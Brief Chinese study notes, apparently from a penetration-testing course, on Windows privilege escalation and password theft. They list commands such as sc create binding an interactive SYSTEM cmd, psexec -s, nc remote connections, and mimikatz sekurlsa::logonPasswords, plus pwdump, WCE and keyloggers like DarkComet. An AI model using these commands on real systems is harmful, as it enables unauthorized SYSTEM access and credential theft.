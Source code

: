 * net user xxx *      设置用户密码

* net user xxx   查看账户信息

* 把管理员账号提成system   at /？ 系统调度任务  at命令之后变成system  （XP、2003）

* sc 创建删除编辑现有系统服务

     sc start syscmd

  ***sc Create syscmd(名字自取) （一条命令）binpath="cmd /K start "type = own type = interact***

* sysinternal suite （微软）  psexec -i -s -d taskmar

## 注入进程提权（不着痕迹）

pinjector.exe

* netstat -nao ：find "555" 查看端口号555是否开放
* 可以cmd远程控制  连接ip
* nc -nv ip port

## 抓包嗅探

* omnipeek（Windows平台）

* sniffpass（Windows平台） 从协议里提取密码

* tcpdump（Linux）

* Dsniff（Linux）提取密码



## 键盘记录

* keylogger
* 木马窃取   darkcomet

## 本地缓存密码

* nirsoft.net 各 工具集成网址 

* pwdump 命令行提取密码（哈希值 ，系统保存的是密码的哈希值 sam文件 ）  

* 从内存读取密码：WCE（Windows credential editor）

* 防止wce攻击，修改注册表 

* fgdump

* mimikatz  内存里可读密码

  * :: 看详细信息

  * privilege::debug  提权

  * sekurlsa::logonPasswords   查看正在登录状态的账号密码

  * process：：进程相关的命令。用它的子模块具体操作。查看运行的exe、开始运行等

